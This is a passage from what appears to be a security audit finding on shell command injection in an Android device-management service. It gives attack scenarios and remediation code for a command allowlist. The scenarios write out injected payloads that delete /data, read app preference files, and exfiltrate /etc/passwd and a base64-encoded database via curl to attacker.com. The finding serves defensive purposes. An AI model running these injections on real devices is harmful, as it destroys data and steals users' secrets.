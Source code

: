 ```typescript
  } catch (error) {
    // ...
  }
}
```

#### Attack Scenarios

**Scenario 1: Logcat Filter Injection**
```bash
# Attacker provides filter value:
filter = "test\"; rm -rf /data/*; echo \""

# Resulting command:
logcat -d -t 100 | grep "test"; rm -rf /data/*; echo ""

# Result: Deletes all data on Android device
```

**Scenario 2: Text Input Shell Injection**
```bash
# Attacker provides text value:
text = "$(cat /data/data/com.app/shared_prefs/*.xml)"

# Resulting command:
input text "$(cat /data/data/com.app/shared_prefs/*.xml)"

# Result: Exfiltrates application preferences containing sensitive data
```

**Scenario 3: Arbitrary Command Execution**
```bash
# If any API exposes executeShellCommand directly:
command = "cat /etc/passwd; curl attacker.com?data=$(base64 /sdcard/sensitive.db)"

# Result: Data exfiltration from device
```

#### Impact
- **Complete device compromise**: Execute arbitrary commands on Android devices
- **Data exfiltration**: Read sensitive files, databases, credentials
- **Denial of Service**: Kill processes, delete files, corrupt system
- **Lateral movement**: Pivot to other devices in the pool
- **Privacy violation**: Access user data, photos, messages

#### Remediation

**1. Implement Command Whitelisting**
```typescript
// Create a whitelist of allowed commands
const ALLOWED_COMMANDS = new Set([
  'input tap',
  'input swipe',
  'input keyevent',
  'pm list packages',
  'screencap',
  'getprop',
]);

async executeShellCommand(
  deviceId: string,
  command: string,
  timeout: number = 5000,
): Promise<string> {
  // Validate command against whitelist
  const baseCommand = command.split(' ')[0];
```